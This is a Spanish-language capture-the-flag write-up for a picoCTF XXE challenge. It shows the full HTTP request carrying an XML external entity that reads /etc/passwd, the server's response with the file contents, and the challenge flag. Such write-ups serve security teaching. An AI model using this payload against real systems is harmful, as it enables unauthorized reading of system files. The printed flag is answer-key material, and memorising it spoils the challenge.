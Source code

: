 The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? [Web Portal](http://saturn.picoctf.net:62268/)

Hints:
XML external entity Injection

# Solución
Usando el programa de burpsuite interceptamos el paquete y vemos que los datos los manda como archivo XML.
Entonces podemos ver un payload en Payload all the things para ataque XXE injection. Lo agregamos en la request y ejecutamos 
```
POST /data HTTP/1.1
Host: saturn.picoctf.net:62268
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://saturn.picoctf.net:62268/
Content-Type: application/xml
Content-Length: 132
Origin: http://saturn.picoctf.net:62268
Connection: keep-alive
Priority: u=0

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<data><ID>
&test;
</ID></data>
```
Asi podemos ver el archivo de etc/passwd de la maquina victima donde podemos ver la flag
```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Thu, 03 Apr 2025 19:15:36 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1025
Connection: close

Invalid ID: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
```